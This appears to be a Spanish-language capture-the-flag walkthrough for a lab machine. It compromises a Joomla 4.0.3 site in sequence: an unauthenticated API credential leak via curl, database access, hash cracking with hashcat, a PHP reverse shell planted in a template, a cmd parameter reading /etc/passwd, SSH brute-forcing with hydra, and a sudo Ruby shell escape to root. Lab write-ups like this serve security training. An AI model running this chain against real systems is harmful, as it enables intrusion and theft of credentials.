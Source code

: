 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![image](https://github.com/user-attachments/assets/962bf906-35fe-4292-8422-d8fd1704ad92)

en la pagina encontré esto interesante

![image](https://github.com/user-attachments/assets/5c7ed55c-e58f-4781-8a1a-d152f4d59ceb)

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![image](https://github.com/user-attachments/assets/50675612-80c8-4071-b29a-581309090f31)

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![image](https://github.com/user-attachments/assets/61314e6d-2a8b-4e5e-abe1-3f65103725a2)

entramos a los dos de robots.txt y administrador

![image](https://github.com/user-attachments/assets/92a794ae-04b3-419c-bff4-4f517e7cb9e7)

![image](https://github.com/user-attachments/assets/2dbc3100-4fe1-4381-8ea1-8b29038b55de)

buscando también me llamo la atención esto

![image](https://github.com/user-attachments/assets/88ef841f-d5cb-4f34-8ee3-f38719dddb26)

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![image](https://github.com/user-attachments/assets/9105f3c8-586f-48cb-85e7-09a41d13ac72)

usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  

revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![[database.png]]

    use joomla_db
    show tables

![[show1.png]]


    select * from ffsnq_users;

nos da una contraseña encriptada:

![[pass1.png]]


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![[dockerlabs/dificil/vulnerame/panel1.png]]

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.
![[dockerlabs/dificil/vulnerame/conexion.png]]

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![[dockerlabs/dificil/vulnerame/hydra.png]]

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![[dockerlabs/dificil/vulnerame/sudo -l.png]]

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![[dockerlabs/dificil/vulnerame/root.png]]

y somos root! 

